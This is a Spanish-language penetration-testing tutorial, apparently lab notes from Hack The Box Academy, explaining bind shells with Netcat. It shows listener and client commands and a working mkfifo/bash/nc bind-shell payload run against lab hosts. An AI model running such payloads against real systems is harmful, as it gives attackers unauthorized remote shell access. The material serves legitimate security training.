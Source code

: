 # Bind Shells

En muchos casos, trabajaremos para establecer una shell en un sistema en una red local o remota. Esto significa que utilizaremos la aplicación de emulación de terminal en nuestra caja de ataque local para controlar el sistema remoto a través de su shell. Esto generalmente se hace usando una shell _bind_ o _reverse_.

## Bind Shell

Con una _bind shell_, el sistema objetivo inicia un oyente (_listener_) y espera una conexión desde el sistema del pentester (la caja de ataque).

<figure><img src="../../.gitbook/assets/image (702).png" alt=""><figcaption></figcaption></figure>

### **Ejemplo de Bind Shell**

Como se muestra en la imagen, nos conectaríamos directamente con la dirección IP y el puerto que está escuchando en el objetivo. Hay varios desafíos asociados con obtener una shell de esta manera. A continuación, algunos aspectos a considerar:

* Debe haber un oyente iniciado previamente en el objetivo.
* Si no hay un oyente iniciado, tendríamos que encontrar una manera de hacerlo.
* Los administradores típicamente configuran reglas de firewall de entrada estrictas y NAT (con implementación de PAT) en el borde de la red (expuesta al público), por lo que ya tendríamos que estar en la red interna.
* Es probable que los firewalls del sistema operativo (en Windows y Linux) bloqueen la mayoría de las conexiones entrantes que no estén asociadas a aplicaciones confiables.

Los firewalls del sistema operativo pueden ser problemáticos cuando intentamos establecer una shell, ya que necesitamos tener en cuenta las direcciones IP, los puertos y la herramienta utilizada para que nuestra conexión funcione correctamente. En el ejemplo anterior, la aplicación utilizada para iniciar el oyente se llama **GNU Netcat**. **Netcat (nc)** es nuestra "navaja suiza" ya que puede funcionar sobre TCP, UDP y sockets Unix. Es capaz de utilizar IPv4 e IPv6, abrir y escuchar en sockets, operar como proxy, e incluso manejar entrada y salida de texto. Usaríamos `nc` en la caja de ataque como nuestro cliente, y el objetivo sería el servidor.

Vamos a entender más a fondo esto practicando con Netcat y estableciendo una conexión _bind shell_ con un host en la misma red sin restricciones.

## Practicando con GNU Netcat

Primero, necesitamos activar nuestra caja de ataque o **Pwnbox** y conectarnos al entorno de red de la Academia. Luego, asegurarnos de que nuestro objetivo esté iniciado. En este escenario, interactuaremos con un sistema Linux Ubuntu para comprender la naturaleza de una _bind shell_. Para hacerlo, utilizaremos **Netcat (nc)** tanto en el cliente como en el servidor.

Una vez conectados al objetivo mediante SSH, iniciaremos un oyente de Netcat:

**No. 1: Servidor - Objetivo iniciando oyente Netcat**

```bash
Target@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
```

En este caso, el objetivo será nuestro servidor, y la caja de ataque será nuestro cliente. Al presionar Enter, el oyente se inicia y espera una conexión desde el cliente.

De vuelta en el cliente (caja de ataque), utilizaremos `nc` para conectarnos al oyente que iniciamos en el servidor.

### **No. 2: Cliente - Caja de ataque conectándose al objetivo**

```bash
sherlock28@htb[/htb]$ nc -nv 10.129.41.200 7777
Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

Notemos cómo estamos usando `nc` tanto en el cliente como en el servidor. En el lado del cliente, especificamos la dirección IP del servidor y el puerto que configuramos para escuchar (7777). Una vez que nos conectamos con éxito, veremos el mensaje "succeeded!" en el cliente, como se muestra arriba, y un mensaje de conexión recibida en el servidor, como se ve abajo.

### **No. 3: Servidor - Objetivo recibiendo la conexión del cliente**

```bash
Target@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!    
```

Sepamos que esto no es una shell propiamente dicha. Es solo una sesión TCP de Netcat que hemos establecido. Podemos ver su funcionalidad escribiendo un mensaje simple en el lado del cliente y viendo cómo se recibe en el servidor.

### **No. 4: Cliente - Caja de ataque enviando el mensaje "Hello Academy"**

```bash
sherlock28@htb[/htb]$ nc -nv 10.129.41.200 7777
Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy  
```

Una vez que escribimos el mensaje y presionamos Enter, veremos que el mensaje es recibido en el servidor.

### **No. 5: Servidor - Objetivo recibiendo el mensaje "Hello Academy"**

```bash
Victim@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy  
```

## Estableciendo una Shell Bind Básica con Netcat

Hemos demostrado que podemos usar Netcat para enviar texto entre el cliente y el servidor, pero esto no es una _bind shell_ porque no podemos interactuar con el sistema operativo ni con el sistema de archivos. Solo podemos pasar texto a través del canal configurado por Netcat. Usemos Netcat para proveer nuestra shell y establecer una verdadera _bind shell_.

En el lado del servidor, necesitaremos especificar el directorio, shell, oyente, trabajar con algunos canales y redireccionamiento de entrada y salida para garantizar que se sirva una shell al sistema cuando el cliente intente conectarse.

### **No. 1: Servidor - Asociando una shell Bash a la sesión TCP**

```bash
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

Los comandos anteriores son considerados nuestro _payload_ y entregamos este _payload_ manualmente. Notaremos que los comandos y el código en nuestros _payloads_ variarán dependiendo del sistema operativo del host al que se los entreguemos.

De vuelta en el cliente, utilizaremos Netcat para conectarnos al servidor ahora que una shell en el servidor está siendo servida.

### **No. 2: Cliente - Conectándose a la shell **_**bind**_** en el objetivo**

```bash
sherlock28@htb[/htb]$ nc -nv 10.129.41.200 7777
Target@server:~$  
```

Veremos que hemos establecido con éxito una sesión de _bind shell_ con el objetivo.
